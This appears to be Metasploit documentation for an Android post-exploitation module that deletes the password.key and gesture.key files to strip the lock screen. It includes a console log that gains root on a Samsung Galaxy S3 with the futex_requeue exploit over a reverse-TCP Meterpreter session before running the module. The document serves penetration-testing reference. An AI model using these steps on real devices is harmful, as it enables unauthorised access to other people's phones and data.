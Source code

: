 ## Description

  This module removes the screen lock data files to remove the unlock mechanism.  If the device
  still has a lock, the password will be blank.

  The file which are removed:

  * /data/system/password.key
  * /data/system/gesture.key

## Verification Steps

  1. Start msfconsole
  2. Get `shell` or `root` access on an Android device
  3. Do: ```use post/android/manage/remove_lock_root```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should be able to unlock the device without a password or gesture.

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Utilizing futex_requeue to get root access.

  ```
msf5 exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/cbvzt
[*] Loaded library /data/data/com.metasploit.stage/files/cbvzt, deleting
[*] Waiting 300 seconds for payload
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 4 opened (111.111.1.111:4444 -> 222.222.2.222:58577) at 2019-10-22 16:04:31 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > background
[*] Backgrounding session 4...
msf5 exploit(android/local/futex_requeue) > use post/android/manage/remove_lock_root
msf5 post(android/manage/remove_lock_root) > set session 4
session => 4
msf5 post(android/manage/remove_lock_root) > run

[!] SESSION may not be compatible with this module.
[*] Removing /data/system/password.key
[*] Removing /data/system/gesture.key
[*] Device should be unlocked or no longer require a pin
[*] Post module execution completed
```
